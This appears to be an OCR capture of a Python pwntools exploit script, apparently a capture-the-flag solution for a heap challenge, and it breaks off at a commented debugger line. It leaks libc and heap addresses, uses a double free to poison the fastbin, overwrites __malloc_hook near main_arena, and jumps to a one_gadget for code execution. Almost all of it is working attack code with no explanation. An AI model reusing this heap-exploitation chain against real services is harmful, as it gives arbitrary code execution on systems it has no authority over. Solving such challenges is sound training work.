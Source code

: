 def add(data):
    r.sendline(b"CREATE " + data)
    r.recvuntil(b"Created string.")

def delete(idx):
    r.sendline(b"DELETE " + str(idx).encode())
    r.recvuntil(b"Deleted")

def print_chunk(idx):
    r.sendline(b"PRINT " + str(idx).encode())
    r.recvuntil(b"is: ")
    return r.recvline()[:-1]

def encode_chunk(idx):
    r.sendline(b"ENCODE " + str(idx).encode())
    r.recvuntil(b"Encoded your string!")
    r.recvline()
    return r.recvline().strip()

def main():

    add(b"A" * 57)
    add(b"B" * 0x40)
    add(b"C" * 0x40)
    add(b"D" * 0x20)

    libc_leak = encode_chunk(0).split(b"D" * 56)[1][:6]
    print(libc_leak)
    libc_leak = list(libc_leak)
    for i in range(len(libc_leak)):
        libc_leak[i] -= 3
        if libc_leak[i] < 0:
            libc_leak[i] += 256
    print(libc_leak)
    libc_leak = bytes(libc_leak)
    libc_leak = u64(libc_leak + b"\x00\x00")
    libc.address = libc_leak - 0x5e2741
    log.info(f"libc leak: {hex(libc_leak)}")
    log.info(f"libc leak: {hex(libc.address)}")

    delete(3)
    delete(1)
    delete(2)
    delete(1)
    heap_leak = print_chunk(1)
    heap_leak = u64(heap_leak + b"\x00\x00") - 0x110
    log.info(f"heap base: {hex(heap_leak)}")

    add(p64(libc.sym['main_arena'] + 21) + b"\x00" * (0x40 - 8))

    add(b"E" * 0x40)
    add(b"F" * 0x40)
    log.info(hex(heap_leak))
    

    chungus = b"\x00" * 3 + p64(0) * 7 + p64(libc.sym['__malloc_hook'] - 0x23) + b"\x00" * (0x40 - 8 * 8 - 3)

    add(chungus)
    one_gadget = libc.address + 0xe1fa1
    
    
    luma = b"i" * (50 - 8 * 4 + 1) + p64(one_gadget)
    luma += (50 - len(luma)) * b"A"
    assert(len(luma) == 50)
    add(luma) 

    # gdb.attach(r, '''